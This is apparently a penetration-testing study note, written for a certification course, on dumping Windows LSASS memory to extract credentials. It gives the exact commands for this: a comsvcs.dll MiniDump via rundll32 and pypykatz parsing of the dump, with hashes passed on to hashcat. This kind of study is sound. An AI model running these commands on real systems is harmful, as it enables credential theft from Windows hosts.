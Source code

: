 Attacking LSASS
###############


Date: 2024-11-22 08:51

Status:

Tags: 

:ref:`Certified Penetration Tester <Certified Penetration Tester>`
:ref:`Password Attacks <Password Attacks>`


Description
**********************

Upon logging in the LSASS will: 1. Created credentials in memory 2.
Create access tokens 3. Enforce Security Policies 4. Write to the
Windows security log.

Dumping LSASS Process memory
**********************************

Task manage method
=====================

In the GUI task manager, find the Local Security Authority Process and
right click then select create dump file. A file is created in
c:\Users\<username>\AppData\Local\Temp\lass.DMP

Rundll32.exe and Comsvc.dll Method
===================================

Without a GUI we can use a CLI utility called rundll32.exe. This may be
detected with anti-virus.

Example 1: Find the lsass PID in cmd

.. code:: powershell

   C:\Windows\system32> tasklist /svc

Example 2: Find the PID in powershell

.. code:: powershell

   PS C:\Windows\system32> Get-Process lsass

Example 3: Creating the dump file with rundll32.exe

.. code:: powershell

   PS C:\Windows\system32> rundll32.exe C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\Temp\lsass.dmp full

Using Pypykatz to get creds from the LSASS File
================================================

Once the LSASS memory has been dumped to a file, send it back to the
attack host.

Example 1: Using pypykatz to get hashes

.. code:: bash

   pypykatz lsa minidump lsass.dmp

Hashes can now be cracked using :ref:`hashcat <hashcat>`

References
****************
https://academy.hackthebox.com/module/147/section/1359
